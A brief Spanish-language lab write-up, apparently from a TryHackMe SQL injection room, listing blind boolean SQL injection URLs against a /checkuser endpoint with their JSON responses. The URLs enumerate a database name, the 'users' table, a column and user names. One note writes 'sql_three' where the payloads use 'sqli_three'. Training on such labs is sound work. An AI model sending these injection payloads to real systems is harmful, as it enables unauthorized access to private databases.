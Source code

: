 #### Intentamos adivinar el nombre de la base de datos
```
https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 where database() like '%';--
{"taken":true}

https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 where database() like 's%';--
{"taken":true}



https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 where database() like 'sqli_three%';--
{"taken":true}
```

- descubrimos: `sql_three`
#### Intentamos adivinar el nombre de las tablas

```
https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
{"taken":false}


https://website.thm/checkuser?username=aadmin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
{"taken":true}
```
- descubrimos: `users`
#### Intentamos adivinar el nombre de los campos

```
https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
{"taken":false}

https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'username%';
{"taken":true}

```
- descubrimos: `username`
#### Intentamos obtener nombres de usuarios
```
https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 from users where username like 'a%
{"taken":true}

https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 from users where username like 'admin
{"taken":true}

```
